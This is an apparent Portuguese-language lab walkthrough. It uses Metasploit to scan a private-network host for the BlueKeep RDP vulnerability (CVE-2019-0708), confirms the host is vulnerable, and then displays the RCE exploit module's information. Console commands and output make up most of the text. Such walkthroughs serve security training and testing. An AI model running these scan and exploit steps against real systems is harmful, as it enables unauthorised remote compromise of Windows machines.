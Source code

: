 ```
Also known as:
  BlueKeep
```
```
msf6 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
[*] Using action Scan - view all 2 actions with the show actions command
```
Configurando o **host** da **máquina alvo**
```
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set RHOSTS 192.168.1.37
RHOSTS => 192.168.1.37
```
```
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > show options

Module options (auxiliary/scanner/rdp/cve_2019_0708_bluekeep):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   RDP_CLIENT_IP    192.168.0.100    yes       The client IPv4 address to report during connect
   RDP_CLIENT_NAME  rdesktop         no        The client computer name to report during connect
                                               , UNSET = random
   RDP_DOMAIN                        no        The client domain name to report during connect
   RDP_USER                          no        The username to report during connect, UNSET = ra
                                               ndom
   RHOSTS           192.168.1.37     yes       The target host(s), see https://docs.metasploit.c
                                               om/docs/using-metasploit/basics/using-metasploit.
                                               html
   RPORT            3389             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads (max one per hos
                                               t)


Auxiliary action:

   Name  Description
   ----  -----------
   Scan  Scan for exploitable targets
```
```
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run
[+] 192.168.1.37:3389     - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.1.37:3389     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
A máquina alvo está vunerável.
## Explorando a vunerabilidade
```
msf6 > show info exploit/windows/rdp/cve_2019_0708_bluekeep_rce

       Name: CVE-2019-0708 BlueKeep RDP Remote Windows Kernel Use After Free
     Module: exploit/windows/rdp/cve_2019_0708_bluekeep_rce
   Platform: Windows
       Arch: 
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Manual
  Disclosed: 2019-05-14

Provided by:
  Sean Dillon <sean.dillon@risksense.com>
  Ryan Hanson
  OJ Reeves <oj@beyondbinary.io>
```